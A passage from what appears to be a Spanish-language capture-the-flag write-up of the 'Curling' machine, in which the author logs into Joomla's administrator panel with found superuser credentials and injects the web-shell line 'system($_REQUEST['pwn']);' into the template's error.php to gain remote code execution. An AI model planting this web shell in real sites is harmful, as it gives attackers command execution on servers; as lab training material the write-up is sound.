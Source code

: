 Efectivamente esas eran las credenciales del Super User, ahora voy a probar estas mismas credenciales para acceder a la ruta /administrator.<br/>

<img src='/images/portfolio/curling/joomla.png' width='900' height=auto><br/><br/>

Consigo acceso como superusuario a la plataforma 'Joomla'. Buscando alguna forma de explotar esta plataforma para un posible reverse shell, encontré el siguiente artículo (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce) el cual explica como se puede conseguir un RCE.<br/><br/>

Por tanto entré en Templates > Templates > Protostar Details and Files y elegí una plantilla para inyectar código. En mi caso elegí 'error.php' e inyecté la siguiente línea de código 'system($_REQUEST[​'pwn'​]);'.<br/>

<img src='/images/portfolio/curling/errorPHP.png' width='900' height=auto><br/><br/>
